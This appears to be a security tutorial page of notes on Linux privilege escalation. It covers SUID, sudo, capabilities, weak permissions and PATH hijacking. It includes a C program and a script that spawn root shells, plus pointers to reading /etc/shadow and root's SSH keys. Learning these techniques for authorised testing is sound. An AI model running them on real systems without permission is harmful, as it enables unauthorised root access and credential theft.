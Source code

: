 ```yaml
---
title: "Linux privilege escalation"
weight: 3
description: "Learn about various techniques and methods for privilege escalation on Linux system, including exploiting weak permissions, SUID, and more, with detailed notes and code examples."
---
```


## Vulnerable program

Search scripts that execute programs. Search for **any vulnerable version**. One example: chkrootkit v0.49 (running as root)

```sh
ps aux
```

> **Note**: It's possible that another user (e.g., root) is running a cron job that executes a script periodically, which you may not be able to see. Therefore, it's crucial to identify and enumerate all potential programs that could be vulnerable.

---

## Weak Permissions

```sh
# World-writable files - E.g.: maybe you can edit shadow file
find / -not -type l -perm -o+w
```

---

## Sudo

```sh
sudo -l
# Search on https://gtfobins.github.io/ how to exploit
```

---

## SUID 

Find all SUID binaries:
```bash
find / -perm -4000 2>/dev/null
```

**Well-known binary**

Search for the binary on [GTFOBins](https://gtfobins.github.io) to identify potential exploitation techniques.


**Custom binary**

Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`

Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime

```sh
strings binary_name
```

**(1) Method**

```sh
cp /bin/bash /path/to/loaded_binary
```

**(2) Method**

Delete the loaded binary and replace with a new one:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("/bin/bash -i"); 
    return 0;
}
```

```sh
# Compile
gcc binary.c -o <loaded_binary>
# Run the binary
./binary_name
```

---

## Capabilities

Since Linux version 2.2, the system has divided the traditional superuser privileges into distinct units called capabilities \[[↗](https://man7.org/linux/man-pages/man7/capabilities.7.html)]. These capabilities can be independently enabled or disabled, offering more fine-grained control over process privileges. However, if misconfigured, they can be exploited by an attacker to escalate privileges and gain root access.

```sh
/usr/sbin/getcap -r / 2>/dev/null
```

Search for the binary on [GTFOBins](https://gtfobins.github.io) to identify potential exploitation techniques.


---

## Email

Analyze the email for any sensitive information:

```bash
ls /var/mail
```


---

## Other

* `sudo -l`
  * setenv?
* SUID/GUID
* Look for capabilities
* History Files
* Docker group
* Cron jobs
* SSH Keys
* PATH
* NFS
* Writable /etc/shadow
* Writable /etc/passwd
* Are there scripts that use commands?
  * If the command is executed without full path you can modify PATH variable
  * `strings <program_name>`
  * you see `tail -f /var/log/nginx/access.log`
  * ```sh
    #!/bin/bash
    /bin/bash -p
    ```
  * `chmod +x /tmp/tail`
  * `export PATH=/tmp:$PATH`
  * `./<program_name>`
* Is there a database? Can I access to it?
  * Look at config file or source code of webpages connecting to db
* Look at the source code of the php,py,jsp ... files of the website
  * Especially login files. Any password?
* Writable authorized\_key folder?
  * generate new ssh keys
* Can I read some file with sudo?
  * /root/root.txt, /etc/shadow, /root/.ssh/id\_rsa
* Can I write a file in the root user directory?
  * generate ssh key with ssh-keygen and save it in the root user dir
* Kernel Exploits
* Linpeas.sh
* [GTFObins](https://gtfobins.github.io)
